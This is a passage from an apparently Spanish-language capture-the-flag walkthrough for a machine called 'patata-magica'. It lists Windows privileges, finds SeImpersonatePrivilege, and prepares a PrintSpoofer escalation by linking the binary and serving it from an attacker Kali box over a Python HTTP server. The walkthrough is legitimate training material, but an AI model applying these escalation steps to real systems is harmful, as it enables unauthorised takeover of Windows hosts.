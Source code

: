<img src="reverseshell3.PNG"  alt="Mi logo">

# Escalada de Privilegios

```bash
PS C:\temp> whoami
patata-magica\www-data
PS C:\temp> whoami /priv

INFORMACI?N DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci?n                                  Estado       
============================= ============================================ =============
SeShutdownPrivilege           Apagar el sistema                            Deshabilitado
SeChangeNotifyPrivilege       Omitir comprobaci?n de recorrido             Habilitada   
SeUndockPrivilege             Quitar equipo de la estaci?n de acoplamiento Deshabilitado
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci?n Habilitada   
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Deshabilitado
SeTimeZonePrivilege           Cambiar la zona horaria                      Deshabilitado
PS C:\temp> 
```

## De los cuales SeImpersonatePrivilegeSe puede utilizar para la elevación de la serie Patata, aquí directamente en PrintSpoofer

Descargamos la Herramienta PrintSpoofer.exe y lo copartimos mediante un servidor en python

https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe

                                                                                                                                                                                                                                                            
```bash
┌──(kali㉿kali)-[~/Documents/patata/shell]
└─$ ls
PrintSpoofer.exe
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/patata/shell]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
